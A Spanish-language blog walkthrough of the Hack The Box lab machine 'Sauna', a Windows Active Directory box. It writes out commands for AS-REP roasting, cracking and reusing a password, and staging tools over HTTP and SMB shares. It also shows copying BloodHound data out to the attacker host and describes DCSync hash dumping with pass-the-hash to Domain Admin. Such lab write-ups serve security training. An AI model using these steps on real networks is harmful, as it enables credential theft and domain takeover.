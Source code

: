 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna fue una buena oportunidad para jugar con los conceptos de Windows Active Directory empaquetados en una caja de dificultad fácil. Comenzaré usando una fuerza bruta de Kerberoast en los nombres de usuario que encontre en la pagina web, luego descubriré que uno de ellos tiene la bandera configurada para permitirme obtener su hash sin autenticarme en el dominio. Haré AS-REP Roast para obtener el hash, romperlo y obtener una shell. Encontraré las credenciales de los próximos usuarios en la clave de registro de AutoLogon. BloodHound mostrará que el usuario tiene privilegios que le permiten realizar un ataque DC Sync, que proporciona todos los hashes de dominio, incluidos los administradores, que usaré para obtener un shell."
date: 2021-07-05
classes: wide
header:
  teaser: /assets/images/Sauna/Untitled.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  -   Active Directory
  -   ASP-RESP Roasting
---
```


# Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![/assets/images/Sauna/Untitled.png](/assets/images/Sauna/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![/assets/images/Sauna/Untitled%201.png](/assets/images/Sauna/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![/assets/images/Sauna/Untitled%202.png](/assets/images/Sauna/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![/assets/images/Sauna/Untitled%203.png](/assets/images/Sauna/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![/assets/images/Sauna/Untitled%204.png](/assets/images/Sauna/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![/assets/images/Sauna/Untitled%205.png](/assets/images/Sauna/Untitled%205.png)

![/assets/images/Sauna/Untitled%206.png](/assets/images/Sauna/Untitled%206.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESP Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![/assets/images/Sauna/Untitled%207.png](/assets/images/Sauna/Untitled%207.png)

Vamos a intentar crackear con john el hash:

![/assets/images/Sauna/Untitled%208.png](/assets/images/Sauna/Untitled%208.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![/assets/images/Sauna/Untitled%209.png](/assets/images/Sauna/Untitled%209.png)

![/assets/images/Sauna/Untitled%2010.png](/assets/images/Sauna/Untitled%2010.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![/assets/images/Sauna/Untitled%2011.png](/assets/images/Sauna/Untitled%2011.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![/assets/images/Sauna/Untitled%2012.png](/assets/images/Sauna/Untitled%2012.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![/assets/images/Sauna/Untitled%2013.png](/assets/images/Sauna/Untitled%2013.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![/assets/images/Sauna/Untitled%2014.png](/assets/images/Sauna/Untitled%2014.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![/assets/images/Sauna/Untitled%2015.png](/assets/images/Sauna/Untitled%2015.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![/assets/images/Sauna/Untitled%2016.png](/assets/images/Sauna/Untitled%2016.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![/assets/images/Sauna/Untitled%2017.png](/assets/images/Sauna/Untitled%2017.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![/assets/images/Sauna/Untitled%2018.png](/assets/images/Sauna/Untitled%2018.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![/assets/images/Sauna/Untitled%2019.png](/assets/images/Sauna/Untitled%2019.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![/assets/images/Sauna/Untitled%2020.png](/assets/images/Sauna/Untitled%2020.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![/assets/images/Sauna/Untitled%2021.png](/assets/images/Sauna/Untitled%2021.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![/assets/images/Sauna/Untitled%2022.png](/assets/images/Sauna/Untitled%2022.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.